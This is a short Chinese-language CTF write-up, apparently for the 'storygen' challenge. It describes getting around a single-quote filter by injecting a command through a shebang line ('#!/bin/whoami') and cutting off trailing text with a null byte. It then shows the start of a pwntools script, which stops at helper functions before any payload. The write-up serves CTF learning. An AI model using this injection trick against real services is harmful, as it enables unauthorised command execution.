 题目中对单引号进行了过滤，因无法直接闭合变量 NAME 赋值语句，但脚本第一行可以拼接到 `#` 之后，可以通过 `#!/bin/whoami` 这样的形式注入命令。

注入之后，命令后方还存在一个`'s story`，可以使用 \0 进行截断。

发送脚本如下：
```bash
#!/usr/bin/env python3
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
proc_name = ""  # "./proc"
ld_path = ""  # "./ld-linux-x86-64.so.2"
libc_path = ""  # "./libc.so.6"
# ip_addr = "storygen.2023.ctfcompetition.com:1337"  # "node4.buuoj.cn:28354"
ip_addr = "127.0.0.1:6666"
# ++++++++++++++++++++++++++++++++++++++++
if len(ip_addr):
    p = remote(ip_addr.split(":")[0], int(ip_addr.split(":")[1]))
    if len(libc_path):
        libc = ELF(libc_path)
elif len(proc_name):
    elf = ELF(proc_name)
    if len(libc_path):
        if len(ld_path):
            p = process([ld_path, proc_name], env={"LD_PRELOAD": libc_path})
        else:
            p = process(proc_name, env={"LD_PRELOAD": libc_path})
        libc = ELF(libc_path)
    else:
        p = process(proc_name)
        libc = p.libc



# ++++++++++++++++++++++++++++++++++++++++
def int16(hexstr: str):
    return int(hexstr, 16)



def r(numb: int = None):
    return p.recv(numb)



def ru(delims: bytes):
    return p.recvuntil(delims, drop=True)



def ra():
    return p.recvall()



def s(data: bytes):
    return p.send(data)



def sa(delim: str, data: bytes):
    return p.sendafter(delim, data)



```